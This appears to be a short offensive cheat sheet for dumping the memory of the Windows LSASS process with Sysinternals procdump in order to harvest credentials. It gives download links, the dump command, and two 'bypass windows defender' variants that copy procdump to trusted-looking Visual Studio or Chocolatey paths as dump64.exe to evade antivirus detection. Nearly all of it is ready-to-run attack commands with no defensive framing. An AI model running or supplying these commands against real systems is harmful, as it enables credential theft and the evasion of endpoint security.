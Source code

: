 ### source
https://live.sysinternals.com/procdump.exe  
https://live.sysinternals.com/procdump64.exe  

### dump lsass process to file
```
procdump.exe -accepteula -ma lsass.exe <file>
```

### bypass windows defender (variant 1)
```
cp .\procdump.exe 'C:\Program Files (x86)\Microsoft Visual Studio\dump64.exe'
.\dump64.exe -ma (Get-Process lsass).Id <outfile>.dmp
```


### bypass windows defender (variant 2)
```
cp .\procdump.exe 'C:\ProgramData\chocolatey\bin\dump64.exe'
.\dump64.exe -ma (Get-Process lsass).Id <outfile>.dmp